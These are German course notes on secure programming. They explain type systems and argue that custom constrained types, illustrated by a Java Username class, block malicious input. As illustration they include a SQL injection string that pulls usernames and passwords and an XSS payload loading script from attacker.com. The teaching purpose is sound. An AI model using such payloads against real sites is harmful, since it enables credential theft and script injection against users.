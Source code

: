 # SPRG 8 - Security with Types

## Type, type system and type checking

- Ein Typ ist eine Klassifizierung von Daten. Er definiert
  - Die bedeutung der Daten (Semantik)
  - Mögliche Werte der Daten
  - Die Operationen der Daten
- Type system ist eine Menge an Regeln, welche Typen für die Elemente eines Systems erzwingen (Variablen, Konstanten, Parameter, return types)
- Type Checking stellt sicher, dass die Regeln des type systems im Programm eingehaltet werden. Dies geschieht durch den type checker beim compilieren

## Classifications of type systems

- Dynamisches oder statisches System beim type checking
  - **Dynamic Typing**

    - Führt keinen type check durch beim compilieren

    - Compiler wirft keinen Fehler wenn z.B. folgende Operation im Code auftaucht:

      `x = "hello" + 3`

  - **Static Typing**

    - Prüft beim compilieren mit einem type check ob die typen korrekt verwendet werden

    - Compiler wirft also einen Fehler wenn z.B. folgende Operation im Code auftaucht:

      `x = "hello" + 3`

- Schwache (weak) oder starke (strong) typisierung
  - **Weak Type System**
    - Ein schwach typisiertes System konvertiert typen implizit falls dies nötig sit
  - **Strong Type System**
    - Ein stark typisiertes System wirft einen Fehler wenn bei einer Operation die Typen nicht gleich sind



## Custom Types

- Integer, Double, BigDecimal, Char, String usw. werden auch als "primitive" Datentypen bezeichnet

- In einer gegebenen business domain arbeiten wir allerdings with strikteren Werten:

  - Username ist ein String, aber...

    - Er darf mindestens 3 und maximal 33 Zeichen lang sein
    - und er darf nur Zeichen aus dem Alphabet beeinhalten (also keine Satzzeichen, Schrägstriche usw.)

  - Menge an Übertragenem Geld ist ein BigDecimal, aber...

    - der Wert muss grösser als 0 sein
    - Je nach Währung darf der Betrag maximal 2 Zeichen nach dem Komma betragen

  - Ein Custom Type für den Benutzername könnte so aussehen:

    ```java
    public class Username
    {
        // Wert des Usernamens
        private final String value;
        
        // Konstruktur, welcher den String validiert
        public Username(String username)
        {
            // Prüfen, ob Username mitgegeben wurde
        	if(username == null || username.length == 0)
            {
                throw new ValidationException("Username is required")
            }
            
            /*
            * Weitere Prüfungen für den Usernamen
            */
            
            this.value = username;
        }
    }
    ```

## Wie können Typen die Sicherheit verbessern?

- Angenommen es gibt die Webseite
  - `internal.bankintra.com/showprofile?username={USERNAME}`
  - Wenn `{USERNAME}` ein Sring ist, so kann er unter anderem folgende arten von Werten annehmen:
    - Einen validen Usernamen
      - z.B.: `RaphiDerHeld69`
    - Schädlichen Code für SQL injection
      - z.B.: `' UNION SELECT username, password FROM users --`
    - Schädlichen Code für XSS um JavaScript in die Profileseite zu schmuggeln
      - z.B.: `<script src='http://attacker.com/malware.js />'`$

## Types and Security

- Custom Types mit strikten Bedingungen (constraints) können...
  - ... Verhindern, dass schadhafter input akzeptiert wird und an Controllers oder Serverice APIs weitergegeben werden
  - ... im Gegensatz zur simplen Validierung, garantieren, dass Daten durch den ganzen lifecycle valide sind (nicht nur an einem bestimmten validierungspunkt)
  - Dies benötigt ein starke typisiertes System, so, dass das System nicht von impliziten Typumwandlungen untergraben werden kann
  - Wenn das Type System in einer Applikation statisch ist, so werden diese Dinge auch zur compilierzeit validiert

